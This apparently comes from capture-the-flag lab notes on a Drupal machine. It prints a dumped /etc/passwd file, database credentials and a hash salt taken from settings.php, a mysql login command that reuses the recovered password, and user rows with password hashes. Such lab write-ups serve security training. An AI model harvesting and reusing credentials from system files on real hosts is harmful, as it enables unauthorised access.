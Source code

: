 ## post flag\-1

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www\-data:x:33:33:www\-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug\-Reporting System \(admin\):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
Debian\-exim:x:101:104::/var/spool/exim4:/bin/false
statd:x:102:65534::/var/lib/nfs:/bin/false
messagebus:x:103:107::/var/run/dbus:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:105:109:MySQL Server,,,:/nonexistent:/bin/false
flag4:x:1001:1001:Flag4,,,:/home/flag4:/bin/bash

/var/www/sites/default/settings\.php -  found FLAG\! 

$databases = array \(
'default' =\> 
array \(
'default' =\> 
array \(
'database' =\> 'drupaldb',
'username' =\> 'dbuser',
'password' =\> 'R0ck3t',
'host' =\> 'localhost',
'port' =\> '',
'driver' =\> 'mysql',
'prefix' =\> '',
\),
\),
\);

$drupal\_hash\_salt = 'X8gdX7OdYRiBnlHoj0ukhtZ7eO4EDrvMkhN21SWZocs';

mysql \-u dbuser \-p R0ck3t

\>  1 | admin | $S$DCLN4I7btwiIkIFbJis5J6aqzq\.MeUBGjaDXCQY9mdMlUyj/u/0V | admin@example\.com |       |           | filtered\_html    | 1550581826 | 1701047288 | 1701044767 |      1 | Australia/Melbourne |          |       1 | admin@example\.com | a:1:\{s:7:"overlay";i:1;\} |
|   2 | Fred  | $S$DWGrxef6\.D0cwB5Ts\.GlnLw15chRRWH2s1R3QBwC0EkvBQ/9TCGg | fred@example\.org  |       |           | filtered\_html    | 1550581952 | 1550582225 | 1550582225 |      1 | Australia/Melbourne |          |       0 | fred@example\.org  | b:0;